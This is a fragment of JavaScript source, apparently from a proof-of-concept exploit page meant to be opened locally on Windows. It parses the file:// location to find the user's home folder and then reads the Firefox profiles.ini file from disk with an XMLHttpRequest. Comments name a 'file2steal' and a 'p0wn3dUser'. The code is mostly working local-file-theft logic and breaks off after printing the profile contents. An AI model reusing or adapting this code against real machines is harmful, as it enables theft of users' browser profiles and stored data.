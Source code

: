     strPayloadLocation=String(document.location);
    document.write("strPayloadLocation: " + strPayloadLocation + "<br>");

    // alert(strPayloadLocation.length);

    if(!document.domain)
            document.write("<br>Running script on local context!!!<br><br>");
    else
    {
            alert("This file must be run locally (i.e.: Windows desktop)!");
            exit;
    }

    // get Windows home folder
    for(j=0; j<strPayloadLocation.length; j++)
    {
                                    //document.write(strPayloadLocation.charAt(j) + " ");
                                    if(strPayloadLocation.charAt(j)=="/")
                                    {
                                            ++found;

                                            // in order to obtain Windows user home folder we get up to 6th slash
                                            // from document.location. i.e.: file:///C:/Documents%20and%20Settings/p0wn3dUser/
                                            if(found==6)
                                            {
                                                    strHomeFolder = strPayloadLocation.substring(0, j+1);
                                                    document.write("strHomeFolder: " + strHomeFolder + "<br>");
                                                    break;
                                            }

                                    }
    }

    strFirefoxProfileLocation=strHomeFolder+"Application Data/Mozilla/Firefox/profiles.ini";

    if(!strHomeFolder)
    {
            alert("This HTML file must be launched anywhere within your home folder!\ni.e.:\nC:\\Documents and Settings\\myusername\\\nC:\\Documents and Settings\\myusername\\My Documents\\\nC:\\Documents and Settings\\myusername\\Desktop\\");
            exit;
    }

    document.write("strFirefoxProfileLocation: " + strFirefoxProfileLocation + "<br>");

    // get contents of strFirefoxProfileLocation
    try
    {
                    //document.write(strFirefoxProfileLocation+"<br>");
                    req.open("GET", strFirefoxProfileLocation, null);
                    req.send(null);
                    //alert(file2steal);
                    if(req.responseText)
                    {
                            strProfileContent=req.responseText;
                            document.write("profileContent:<br><br>" + strProfileContent + "<br><br>");
